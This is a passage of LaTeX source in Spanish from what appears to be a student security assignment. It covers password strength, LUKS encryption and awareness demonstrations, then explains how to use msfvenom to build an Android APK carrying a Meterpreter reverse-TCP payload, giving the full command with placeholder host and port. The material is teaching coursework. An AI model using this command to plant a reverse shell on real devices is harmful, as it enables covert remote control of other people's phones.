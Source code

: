 Principalmente el uso de contraseñas seguras (compuestas tanto por caracteres mayúsculas y minúsculas, como por número y símbolos), también encriptación para las particiones del disco duro de la PC personal (partición encriptada con \emph{LUKS}).

\subsection{Acciones para la concientización}

Una acción de concientización interesante podría ser la demostración de qué tan fácil puede llegar a ser descubrir una contraseña habitual, mediante el uso de diccionarios y/o fuerza bruta.

\section{Ataques}

\emph{Explique el procedimiento para la ejecución del componente meterpreter en un dispositivo/computadora remoto/a a través de msfvenom} 

Para poder ejecutar una aplicación con un \emph{shell reverso \footnote{Se establece una conexión entre dos computadoras, la que inicia la conexión dirige una terminal interactiva hacía el destino \autocite{ReverseShell}}} en un dispositivo Android, primero se debe crear un archivo \emph{.apk} (archivo instalable en un Android) que contenga el código necesario para establecer la conexión con otra computadora. Para ello se usa el programa \texttt{msfvenom} de la siguiente manera:

\begin{lstlisting}
    msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO_DE_ESCUCHA> R> ~/app.apk
\end{lstlisting}

\begin{itemize}
    \item \texttt{-p android/meterpreter/reverse\_tcp}: con este parámetro le indicamos a \texttt{msfvenom} que el \emph{payload} (código adicional) que queremos inyectar en la aplicación \emph{app.apk} realice una conexión TCP con la IP <IP> al puerto <PUERTO\_DE\_ESCUCHA>  
    \item \texttt{LHOST}: dirección IP a la cual conectarse
    \item \texttt{LPORT}: puerto al cual establecer la conexión 
\end{itemize}

